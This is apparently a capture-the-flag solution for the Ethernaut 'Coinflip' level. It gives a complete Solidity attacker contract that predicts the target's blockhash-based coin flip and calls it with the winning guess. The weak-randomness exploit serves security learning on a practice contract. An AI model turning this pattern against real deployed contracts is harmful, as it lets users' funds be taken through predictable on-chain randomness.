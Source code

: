 # [3. Coinflip](https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f)

In this attack, we will guess the supposed "random" flips by calling the attack from our contracts. The target contract is programmed to flip a coin on each block, so each guess we make must be on different blocks.

Here is our attacking contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol";

// interface for target
interface CoinFlip {
  function flip(bool _guess) external returns (bool);
}

contract Attacker {
  CoinFlip coinflipTarget;
  using SafeMath for uint256; 

  constructor(address _target) {
    coinflipTarget = CoinFlip(_target);
  }

  function psychicFlip() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(57896044618658097711785492504343953926634992332820282019728792003956564819968);
    bool side = coinFlip == 1 ? true : false;
    
    bool result = coinflipTarget.flip(side);
    require(result, "Could not guess, abort mission.");
  }
}
```
